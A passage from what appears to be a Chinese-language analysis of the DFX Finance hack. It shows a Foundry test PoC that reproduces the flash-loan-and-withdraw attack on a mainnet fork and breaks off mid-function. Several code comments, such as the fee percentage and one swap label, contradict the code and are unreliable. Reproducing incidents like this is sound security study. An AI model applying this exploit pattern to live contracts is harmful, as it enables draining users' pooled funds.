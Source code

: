 ## PoC
综上，复现此次攻击的 PoC 如下，
```
contract DFXFinancePoC is Test { // 模拟攻击
    uint256 lpToken;
    
    function setUp() public {
        vm.createSelectFork("mainnet", 15_941_703);

        vm.label(dfx, "DFX");
        vm.label(usdc, "usdc");
        vm.label(xidr, "xidr");
    }
       
    function testExploit() public {
        vm.warp(15_941_703); // block.timestamp = 2022-08-07 23:15:46(UTC)

        console.log("------------------------------- Pre-work -----------------------------");
        console.log("Tx: 0x6bfd9e286e37061ed279e4f139fbc03c8bd707a2cdd15f7260549052cbba79b7");

        console.log("Attacker prepare flashFee");

        // deal(usdc, address(this), 100 ether);
        // deal(xidr, address(this), 100 ether);

        (bool success, ) = WETH.call{value: 1.5 ether}("");

        IERC20(WETH).approve(address(UniV3Router), type(uint256).max);
        IERC20(usdc).approve(address(UniV3Router), type(uint256).max);
        IERC20(usdc).approve(address(dfxXidrV2), type(uint256).max);
        IERC20(xidr).approve(address(UniV3Router), type(uint256).max);
        IERC20(xidr).approve(address(dfxXidrV2), type(uint256).max);

        // WETH to usdc
        tokenToToken(WETH, usdc, IERC20(WETH).balanceOf(address(this)));

        // WETH to xidr
        tokenToToken(usdc, xidr, IERC20(usdc).balanceOf(address(this))/2);

        emit log_named_decimal_uint("[Before] Attacker usdc balance before exploit", IERC20(usdc).balanceOf(address(this)), 6);

        emit log_named_decimal_uint("[Before] Attacker xidr balance before exploit", IERC20(xidr).balanceOf(address(this)), 6);
        
        console.log("-------------------------------- Start Exploit ----------------------------------");

        // 根据palcon来跟踪信息
        uint256[] memory XIDR_USDC = new uint[](2);
        XIDR_USDC[0] = 0;
        XIDR_USDC[1] = 0;
        (, XIDR_USDC) = dfxXidrV2.viewDeposit(200_000 * 1e18);
        console.log("Attacker deposit should xidr Balance", XIDR_USDC[0]);
        console.log("Attacker deposit should usdc Balance", XIDR_USDC[1]);

        IERC20(xidr).approve(address(dfxXidrV2),type(uint256).max);
        IERC20(usdc).approve(address(dfxXidrV2),type(uint256).max);

        dfxXidrV2.flash(address(this), XIDR_USDC[0] * 995 / 1000, XIDR_USDC[1] * 995 / 1000, new bytes(1)); // 5% fee

        dfxXidrV2.withdraw(lpToken, block.timestamp + 60);
```